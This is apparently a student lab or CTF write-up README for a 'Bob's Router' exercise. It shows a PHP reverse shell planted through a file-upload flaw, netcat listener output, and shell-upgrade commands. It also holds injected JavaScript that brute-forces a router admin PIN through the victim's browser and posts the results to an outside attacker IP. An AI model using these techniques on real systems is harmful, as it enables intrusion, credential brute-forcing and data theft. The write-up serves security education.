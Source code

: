 * Summary
This is the readme file for Bob's Router project. I have successfully
gained access to Bob's router's admin page, but failed to advance
further. Nonetheless, here's all the work I've done.

* Reverse-shell in the FLAG Portal
To launch csrf attack against Bob, we need to alter the content of the
FLAG portal. To do this, I took advantage of the file upload
vulnerability in the FLAG portal and uploaded a php script under the
extension ".pdf.php". The script will open a socket to my own server
at port 1234, and forward my command to "/bin/sh" and sends back all
the output, creating a reverse-shell for me.

Then I start listening on port 1234 on my own server using the
following netcat command:

#+BEGIN_SRC bash
nc -vnlp 1234
#+END_SRC

Next, I naviagte to my own "grade" page and chose to view the
submitted file, which in turn executes the php script and gives me a
reverse-shell:

#+BEGIN_SRC 
ubuntu@ip-172-31-40-233:~$ nc -vnlp 1234
Listening on [0.0.0.0] (family 0, port 1234)
Connection from 35.186.175.202 57538 received!
Linux flag-txiaotin 4.9.0-8-amd64 #1 SMP Debian 4.9.130-2 (2018-10-27) x86_64 GNU/Linux
 17:35:11 up 24 days, 19:30,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ 
#+END_SRC

Next, I want to edit the template file so as to inject a script tag in
the landing page. However, the reverse-shell I have now isn't
interactive enough to support real-time editting, so I have to upgrade
this reverse-shell to something better. Most of the enhancement is
from this blog
https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/. 

First, I use python's pseudo-terminal utilities to spawn a bash
session in replace of the sh session:

#+BEGIN_SRC bash
python -c 'import pty; pty.spawn("/bin/bash")'
#+END_SRC

Next, I stop the reverse-shell temporarily by pressing Ctrl-Z and went
back to my original shell. Then I use the stty utility to change my
terminal settings to raw mode and echo input characters:

#+BEGIN_SRC bash
stty raw -echo
#+END_SRC

Then I type "fg" to get back my reverse shell.

Then I type "reset" to reset the shell. It prompts for the type of
shell I want. I type "xterm". Then I get a good bash reverse-shell
with full interactive ability. Finally I try to fix some display
issues:

#+BEGIN_SRC bash
export TERM=xterm
stty rows 50 columns 150
#+END_SRC

Now I can use editors like vi without any problem.

* Inject script
To begin with, I need to have a way of telling Bob's behavior, so I
rent an AWS server with a public IP. In the script, I will sent a
message to that server indicating the state of Bob's behavior. The
first step is to send a GET request to the address http://router.local
from Bob's browser. I used the following script to do so.

#+BEGIN_SRC javascript
var xhr = new XMLHttpRequest();
xhr.onload = function (e) {
    var xhr2 = new XMLHttpRequest();
    xhr2.open('POST', 'http://<aws-ip>:8888', true);
    xhr2.send('msg=' + xhr.response);
}
xhr.open('GET', 'http:router.local');
xhr.send('');
#+END_SRC

Using this script, I get the html page for Bob's router:

#+BEGIN_SRC html
<html>
    <head>
        <link href='https://fonts.googleapis.com/css?family=Jura:400,500,600,300' rel='stylesheet' type='text/css'>
        <link rel="stylesheet" type="text/css" href="index.css">
    </head>

    <body>
        <div id="loginDiv">
            <img src="http://hmapr.com/wp-content/uploads/2011/07/secure-lock.png"/>
            <h1>CISCO Administration Portal</h1>
            <h2>Authentication Required</h2>
        </div>

        <div id="loginForm">
            
            <form id="login_form" action="login.php" method="POST" onsubmit="return validateLoginForm()" ><input type="hidden" name="PHPSESSID" value="ohbjbcgmsm15p7kot6sa60ful5" />
                <input type="text" name="username" placeholder="jcarberry"/>
                <input type="password" name="pin" placeholder="1234"/>
                <p>I am not a robot <input type="radio" name="notRobot"/></p>
                <input type="submit" value="Submit"/>
            </form>
        </div>
    </body>
    <script>
        function validateLoginForm() {
            form = document.getElementById("login_form");
            if (!form["notRobot"].checked) {
                alert("You must not be a robot in order to submit this form.");
                return false;
            }
        }
    </script>
</html>
#+END_SRC

In this html is a login form with four important fields: PHPSESSID,
username, pin and notRobot. I suspect that PHPSESSID is required by
the server, so I have to send back the same PHPSESSID in order for my
request to be recognized. The username is usually, to my experience,
"admin". The radio checker "notRobot"'s correct value should be "on",
indicating that it's selected. The rest of the puzzle is the pin. 

I noticed that its placeholder is "1234", which might indicate that
it's a four-digit pin. There are 10000 4-digit pins and brute-forcing
all of them shouldn't be too difficult.

* Brute-force pin numbers
In order to automate the pin-guessing process, we need to
sequentialize the guess. That is, we only sends the next guess after
the previous guess fails. This is because that each time Bob sends a
GET request to http://router.local, the PHPSESSID will be
refreshed. If I simply create a bunch of POST requests with different
pins, I cannot guarantee that the PHPSESSID contained in each request
is valid by the time it reaches the router. It is also a waste of
resource if some requests already succeed.

The solution I found is to use a recursive callbacks that generates
new XMLHttpRequest if and only if the current request fails. The new
XMLHttpRequest should also conatin the PHPSESSID returned from the
previous request.

#+BEGIN_SRC javascript
var START = 0;
var END = 1000;
var LOGINURL = 'http://router.local/login.php';
var xhrs = [];
function guessToPin(guess) {
	return ('0000' + guess).substr(-4, 4);
}
function responseToSessID(response) {
	return response.match(/[0-9a-z]{20,}/g)[0];
}
function isGoodResponse(response) {
	var matched = response.match(/error/g);
	return !matched || matched.length != 1;
}
function sendSuccessfulMessage(goodguess, html) {
	var xhr4 = new XMLHttpRequest();
	xhr4.open('POST', 'http://18.217.54.18:8888', true);
	xhr4.send('pinnum=' + guessToPin(goodguess) + '&success=' + html);
	xhrs.push(xhr4);
}
function sendAllFailMessage(badguess) {
	var xhr4 = new XMLHttpRequest();
	xhr4.open('POST', 'http://18.217.54.18:8888', true);
	xhr4.send('pinnum=' + guessToPin(badguess) + '&ALLFAILED=true');
	xhrs.push(xhr4);
}
function sendThisFailMessage(badguess) {
	var xhr4 = new XMLHttpRequest();
	xhr4.open('POST', 'http://18.217.54.18:8888', true);
	xhr4.send('pinnum=' + guessToPin(badguess) + '&failed=true');
	xhrs.push(xhr4);
}
function sendHereMessage() {
	var xhr4 = new XMLHttpRequest();
	xhr4.open('POST', 'http://18.217.54.18:8888', true);
	xhr4.send('here=True');
	xhrs.push(xhr4);
}
function composePOSTMessage(sessid, pin) {
  return 'PHPSESSID=' + sessid + '&username=admin&pin=' + pin + '&' + 'notRobot=on';
}
function process(response, currguess) {
  	if (isGoodResponse(response)) {
		sendSuccessfulMessage(currguess, response);
		return;
	} else {
		if (currguess == END) {
			sendAllFailMessage(currguess);
			return;
		}
		sendThisFailMessage(currguess);
		var xhr5 = new XMLHttpRequest();
		xhr5.open('POST', LOGINURL, true);
		xhr5.onload = createFunc(xhr5, currguess + 1, true);
		xhr5.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
		xhr5.send(composePOSTMessage(responseToSessID(response), guessToPin(currguess + 1)));
		xhrs.push(xhr5);
	}
}
function createFunc(xhr, currguess, guessed) {
	return function(e) {
		if (guessed) {
			process(xhr.response, currguess);
		} else {
			var xhr3 = new XMLHttpRequest();
			xhr3.open('POST', LOGINURL, true);
			xhr3.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
			xhr3.onload = function(event) {
				process(xhr3.response, currguess);
			};
			xhr3.send(composePOSTMessage(responseToSessID(xhr.response), guessToPin(currguess)));
			xhrs.push(xhr3);
		}
	};
}
var xhr = new XMLHttpRequest();
var f = createFunc(xhr, START, false);
xhr.onload = f;
xhr.open('GET', 'http:router.local');
xhr.send('');
xhrs.push(xhr);
#+END_SRC

In the script, we first create a new XMLHttpRequest, bind a callback,
and sends a GET request to the router. The callback will create
another POST request along with the first guess (START), bind it with
the same callback, and send it to http://router.local/login.php. Each
time we receive a response from the POST request, we will examine
whether it's a good response. If it is, we send the full response to
my AWS server and terminate the recursive callbacks. If not, we launch
the next guess with PHPSESSID extracted from the current response.

To dertermine whether it's a good response, I look for the string
"error" in the response. If it's present, the response is bad and the
guess has failed. If not, then the response is good and the guess has
succeeded.

An important detail is that we have to set the "Content-Type" header
to "application/x-www-form-urlencoded" or the router will not
recognize our request.

Finally, Bob will refresh every 15 seconds, meaning that we only have
a time window of 15 seconds to do our guess work. Through experiement
I found that we can only do about 1500 guesses within 1500 seconds. As
a result, I have to manually edit the script every 15 seconds so as to
cover all the pins from 0000 to 9999.

After some attempts, I get a success message indicating that the
correct pin is 6607 and the admin pages' html:

#+BEGIN_SRC html
<html>
    <head>
        <link href='https://fonts.googleapis.com/css?family=Jura:400,500,600,300' rel='stylesheet' type='text/css'>
        <link rel="stylesheet" type="text/css" href="home.css">
    </head>
    <body>
        <h1> Welcome, Admin! </h1>
        <h2> Router Stats </h2>
    </body>
    <p style='color: white'>Router status: OK</p><p style='color: white'>Packets Dropped: 621/s</p><p style='color: white'>Upload speed: 8MB/s</p><p style='color: white'>Download speed: 17MB/s</p><p style='color: white'>Default Gateway: 192.168.1.1</p><p style='color: white'>Primary DNS: 8.8.4.4</p></html>
#+END_SRC

* Next step

The admin's page looks ok, but not interesting enough for us to find
one more vulnerability for Remote Code Execution. The page contains
zero input field and no further url references. One thing that I think
is interesting is three status lines: Upload speed, Download speed and
the default gateway. 

I tried to make Bob send GET request to the default gateway at
192.168.1.1, but no response came back, indicating that 192.168.1.1 in
Bob's local network does not have port 80 open.

I suspect that there are some very important urls I am missing
here. But I am not able to find them.

What I had in mind was to abuse some vulnerabilities to overide one
particular php script with a reverse-shell like what I did with the
FLAG Portal.

* Files and how they are used

** brute-force-pin.js
This is the script to brute-force the pin numbers.

** collector.py
Contains a tornado web server that listens to port 8888 and prints any
incoming messages.

** finder.py
Searchs for successful in a "log.txt" (I used it once before I
optimize brute-force-pin.js to only send successful messages in full)

** index.html
The router's landing page.

** admin.html
The router's admin page after successful authentication.

** fake
A folder with index.php, login.php and a few css files that simulates
the router's web server's structure. I used it for testing
brute-force-pin.js to check for any programming errors.

